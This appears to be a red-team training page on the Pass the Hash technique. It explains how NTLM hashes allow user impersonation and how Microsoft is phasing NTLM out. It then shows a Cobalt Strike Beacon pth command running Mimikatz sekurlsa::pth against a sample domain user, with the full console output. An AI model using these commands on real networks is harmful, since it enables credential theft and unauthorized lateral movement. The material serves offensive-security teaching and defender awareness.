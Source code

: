 # Pass the Hash

_Pass the Hash_ (often shortened to PtH) is a technique \[[T1550.002](https://attack.mitre.org/techniques/T1550/002/)] that allows an adversary to leverage an NTLM hash for user impersonation.  There are two flavours of PtH that are often used interchangeably.

The first is implemented in Linux-based tools, like [Impacket](https://github.com/fortra/impacket), which uses raw NTLM authentication for protocols like SMB.  The second is implemented in Windows-based tools, like Mimikatz, which patches the hash directly into the credential cache of a logon session.  Both of these approaches have historically worked well because the adversary isn't required to recover the plaintext credentials through cracking, and NTLM was the default authentication protocol in Windows for a long time.\


However, Microsoft are doing their utmost to remove NTLM from Windows altogether.  Kerberos has already replaced NTLM as the default authentication protocol, so seeing NTLM authentication is becoming more and more anomalous; and NTLM authentication may be [restricted](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-ntlm-authentication-in-this-domain) in hardened environments.

Beacon has a built-in `pth` command - the syntax is simply `pth [DOMAIN\user] [hash]`.  This is a wrapper around `sekurlsa::pth`.  It will echo some random data into a named pipe, which Beacon will then [impersonate](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient) to assume the identity of the passed credentials.

```batch
beacon> pth CONTOSO\rsteel fc525c9683e8fe067095ba2ddc971889
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:"rsteel" /domain:"CONTOSO" /ntlm:fc525c9683e8fe067095ba2ddc971889 /run:"%COMSPEC% /c echo 8d3f86487c1 > \\.\pipe\f08610" command

user	: rsteel
domain	: CONTOSO
program	: C:\Windows\system32\cmd.exe /c echo 8d3f86487c1 > \\.\pipe\f08610
impers.	: no
NTLM	: fc525c9683e8fe067095ba2ddc971889
  |  PID  2920
  |  TID  3716
  |  LSA Process is now R/W
  |  LUID 0 ; 18729858 (00000000:011dcb82)
  \_ msv1_0   - data copy @ 000001F7FB8EA9D0 : OK !
  \_ kerberos - data copy @ 000001F7FB8FCD28
   \_ des_cbc_md4       -> null             
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F7FB8D77A8 (32) -> null
```
